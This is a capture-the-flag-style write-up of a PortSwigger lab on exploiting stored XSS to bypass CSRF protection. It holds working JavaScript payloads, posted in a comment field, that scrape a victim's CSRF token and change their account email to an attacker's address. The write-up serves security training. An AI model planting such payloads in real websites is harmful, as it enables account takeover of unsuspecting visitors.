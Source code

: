 # Exploiting XSS to perform CSRF

## Description

Link : https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

>![](imgs/20210701-200938.png)


## Writeup

We log in as the **wiener** user and we are redirected to our account page (`/my-account`):

>![](imgs/20210701-201401.png)

The page exposes a `update email` functionality and it is protected by a CSRF token.

We can use Burp to intercept the HTTP requests and to understand the `update email` mechanism in detail.

We change the email to **luca@normal-user.net** and here is the request:

>![](imgs/20210701-202035.png)


The email and the CSRF token are sent in the POST data after being urlencoded. Given that the request is protected by a CSRF token it is necessary to provide a valid token in order for the request to be valid.  
This is where the XSS comes handy: if we manage to execute javascript in the user's context, we will be able to dynamically scrape the valid CSRF token from the page and submit it together with the email.

Let's look for the XSS then.

The XSS can be easily spotted by testing the trivial `<script>` tag on the _comment_ text area

>![](imgs/20210701-203757.png)

And Javascript is executed.

>![](imgs/20210701-203902.png)


We can now use the XSS to bypass the CSRF protection and perform a CSRF attack in order to change the password of the users who will visit the page where the XSS is stored.  
Since the mail is changed with a POST request, we need to trick the user to perform a POST request to the `/my-account/change-email` endpoint, submitting the new email and the valid CSRF token.  


We wrote some lines of Javascript for the purpose (i.e. our XSS payload).  
`email` and `csrf` token should be urlencoded in order to conform to the POST data format we previously observed in Burp:

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', '/my-account/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send(new URLSearchParams({
    'email': 'pwned@gmail.com',
    'csrf': document.getElementsByName('csrf')[0].value
    })
    );
</script>
```

However it is not successful.  
Taking some steps back to spot the issue, we notice that the CSRF token is only issued after the user visits the account page, namely `/my-account`. Such behavior caused the `document.getElementsByName('csrf')[0].value` to be null, as the token was not there yet.

We can easily fix the issue by first issuing a request to `/my-account` and scraping the CSRF token from the response. Therefore, our new XSS payload looks like:



```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() { 
        var token = this.response.getElementsByName('csrf')[0].value;
	xhr.open('POST', '/my-account/change-email', true);
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.send(new URLSearchParams({
	    'email': 'pwned@gmail.com',
	    'csrf': token
	    })
	    );
};
xhr.open('GET', '/my-account', true);
xhr.responseType = "document";
xhr.send();

</script>
```

Some notes on the code:

- When `this` is used in the context of a DOM event handler, it is set to the element on which the listener is placed (`xhr` in this case).
- The `onload` event triggers when the response is fully loaded
- We prepare the `onload`event handler before the request to `my-account` takes place to make sure that the handler will be ready.

We completed the lab successfully. Now every users who will visit the page where our XSS is stored will have the email changed to `pwned@gmail.com`.







